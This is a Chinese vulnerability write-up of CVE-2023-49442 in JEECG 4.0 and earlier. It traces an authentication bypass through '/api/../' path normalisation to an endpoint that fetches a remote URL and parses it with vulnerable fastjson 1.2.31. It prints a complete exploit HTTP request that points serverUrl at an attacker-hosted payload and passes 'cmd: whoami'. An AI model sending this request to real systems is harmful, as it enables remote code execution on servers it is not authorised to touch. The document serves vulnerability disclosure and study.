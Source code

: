 

# JEECG代码执行漏洞-CVE-2023-49442 - 先知社区

JEECG代码执行漏洞-CVE-2023-49442

- - -

# JEECG代码执行漏洞分析-CVE-2023-49442

## 漏洞描述

JEECG 4.0及之前版本中，由于接口鉴权时未过滤路径遍历，攻击者可构造url绕过鉴权，攻击者可构造恶意请求利用jeecgFormDemoController.do?interfaceTest接口进行远程代码执行

## 影响版本

-   <= 4.0

## 漏洞分析

根据 jeecgFormDemoController.do?interfaceTest定位漏洞代码

[![](assets/1705890745-0d647010498ef502c1dc04a35344c9fd.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240119140531-c070f8da-b690-1.png)  
可以看到接受3个参数：serverUrl、requestBody、requestMethod，然后根据requestMethod的值调用HttpRequest.sendPost或HttpRequest.sendGet  
这2个方法的区别就是发送get或post请求，请求传入的serverUrl

[![](assets/1705890745-586f0fd0e9ebef1a8f667420f43d8e1f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240119140548-cabf8626-b690-1.png)

[![](assets/1705890745-e7b09ad57f0c2be796454e209f9ae4c3.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240119140600-d1fb026c-b690-1.png)  
之后获取请求结果，调用JSONObject.parseObject(result)

[![](assets/1705890745-809f8f2ea942f64f6f7a8272d7d83340.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240119140618-dc278706-b690-1.png)  
因为这里使用的是fastjson

[![](assets/1705890745-eff3e417a1f577a1e16ada17ddad1da7.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240119140630-e3a9f2a2-b690-1.png)  
并且其版本为1.2.31，为漏洞版本

[![](assets/1705890745-2cf1f83811912470ae211433e126dd16.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240119140648-ee575de8-b690-1.png)  
所以我们只要构造serverUrl回显的内容为fastjson代码执行的payload即可  
但实际直接访问该路由是会302跳转的，应该是拦截器做了限制

[![](assets/1705890745-29c44c6988c9df1b4de32d7e41af5e59.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240119140704-f7a29732-b690-1.png)  
观看代码，可以发现api接口，是不做限制的，只要以/api/开头就行

[![](assets/1705890745-5d0c0fad5a495241aa4409ac801b5c63.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240119140717-ff53ed46-b690-1.png)  
又因为其alwaysUseFullPath为值false，在处理过程中会对uri进行标准化处理，所以我们可以利用/api/../的形式来进行绕过

[![](assets/1705890745-46c4cf819576394224cec1d37b8a958a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240119140733-09526ce6-b691-1.png)

```plain
/api/../jeecgFormDemoController.do?interfaceTest=
```

[![](assets/1705890745-dc24161fa886aef7c8a8cd42e87a0545.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240119140747-11c3979c-b691-1.png)

## 漏洞利用

创建如下远程文件，其内容为fastjson代码执行的payload

[![](assets/1705890745-34c15cf098b7d272b40d3f92fc9f5363.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240119140812-206d70b0-b691-1.png)  
发送如下请求包

```plain
POST /api/../jeecgFormDemoController.do?interfaceTest= HTTP/1.1
Host: 
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
cmd: whoami
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 77

serverUrl=http://xxxxxxxx:8877/jeecg.txt&requestBody=1&requestMethod=GET
```

漏洞利用成功

[![](assets/1705890745-6adef62ebf933bc5ca1d0b182200909d.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240119140845-33e30a88-b691-1.png)

## 参考链接

[https://avd.aliyun.com/detail?id=AVD-2023-49442](https://avd.aliyun.com/detail?id=AVD-2023-49442)
